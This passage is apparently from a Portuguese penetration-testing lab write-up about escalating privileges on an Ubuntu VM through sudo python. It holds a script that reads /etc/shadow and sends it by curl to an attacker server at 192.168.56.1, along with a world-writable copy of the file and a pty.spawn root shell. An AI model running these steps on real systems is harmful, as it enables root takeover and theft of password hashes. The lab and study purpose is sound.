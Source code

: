 ```bash
vagrant@ubuntu:~$ sudo python << 'PYTHON_EOF'
import os
import subprocess
import base64

# Ler arquivo sensível
with open('/etc/shadow', 'r') as f:
    shadow_content = f.read()

# Base64 encode para evitar caracteres estranhos
encoded = base64.b64encode(shadow_content.encode()).decode()

# Enviar para servidor atacante via curl
os.system(f'curl -X POST http://192.168.56.1:8000 -d "data={encoded}"')

# Ou salvar com permissões ajustadas
os.system('cat /etc/shadow > /tmp/shadow_backup.txt && chmod 777 /tmp/shadow_backup.txt')
print("[+] Arquivo copiado e permissões alteradas com sucesso!")
PYTHON_EOF
```

**Explicação:** Python permite combinar leitura de arquivo (com privilégios root) + processamento de dados + envio remoto automatizado.

### 3.5g Método 7: Python com `pty` - shell completamente interativa

Para uma shell 100% interativa com histórico e tudo:

```bash
vagrant@ubuntu:~$ sudo python -c 'import pty; pty.spawn("/bin/bash")'
```

**Resultado:**

```
root@ubuntu:~# export TERM=xterm
root@ubuntu:~# whoami
root
root@ubuntu:~# clear
root@ubuntu:~# 
```

**Explicação:** `pty.spawn()` cria um pseudo-terminal, permitindo uso de comandos como `clear`, histórico com setas, autocomplete, etc. Bem mais confortável que shell simples.

---

## 4. Transferência de arquivos sensíveis

### 4.1 Cópia de /etc/shadow

Após ganhar acesso root, realizei cópia do arquivo `/etc/shadow` para análise posterior:
